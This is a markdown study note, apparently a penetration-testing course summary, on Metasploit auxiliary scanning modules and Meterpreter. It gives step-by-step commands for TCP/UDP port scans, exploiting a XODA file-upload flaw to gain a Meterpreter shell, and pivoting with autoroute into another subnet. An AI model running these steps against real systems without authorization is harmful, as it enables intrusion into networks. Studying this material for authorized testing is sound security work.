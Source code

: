 ## What is Auxiliary module
* Used to perform scanning, discovery and fuzzing.
* Auxiliary modules are used to perform both TCP and UDP port scanning
* Enumerate from services like FTP, SSH, HTTP, etc.
* Similar functionality to that of nmap --> but Auxiliary modules shine during post-exploitation phase.
* Once a system is discoverd with the open ports on it (This can be done through both nmpa and auxiliary modules).
* Discover hosts and perform port scanning on a different netwrok subnet can only be done through auxiliary modules.

## What is Meterpreter session
* Meterpreter is a post-exploitation tool often used within the Metasploit framework for penetration testing and ethical hacking purposes.
  
**PRACTICAL**
* `use auxiliary/scanner/portscan/tcp`
* The entire range of TCP ports is 1-65,535. So to scan entire range, ports option can be chnaged : `set ports 1-65535` {If you are not sure about the port on which the service is running}
* **CURL** --> Download the HTML of the web page 
  * `curl [target IP]`
  * `search xoda`
  * `use exploit/unix/webapp/xoda_file_upload`
  * `set rhosts` AND `set TargetURI /` --> set to the root.
  * `run` --> This will provide a meterpreter session on the target
 
* Inside that meterpreter session-->
* `shell`
* `ifconfig` --> To obtain the IP of other system connected on "eth1"
* The n come out of the shell and in meterpreter session execute: `run autorooute -s [IP of the other system on the network]`
    * "run": This is a command used within Meterpreter to execute various built-in scripts or functionalities.
    * "autoroute": This command within Meterpreter allows the attacker to add a route to the victim machine's routing table. It's used to route traffic for specific IP ranges or subnets through the compromised system.
    * "-s 192.45.240.3": The "-s" flag specifies the subnet or IP address that the traffic should be routed through the compromised system.
    * In this case, it's instructing Meterpreter to route traffic for the subnet 192.45.240.3 through the compromised machine.
 
* Again using portscan/tcp --> Scan this new system found on the network.

### Scan UDP ports
* `use auxiliary/scanner/discovery/udp_sweep`
* `set rhosts [IP]`
* `run`
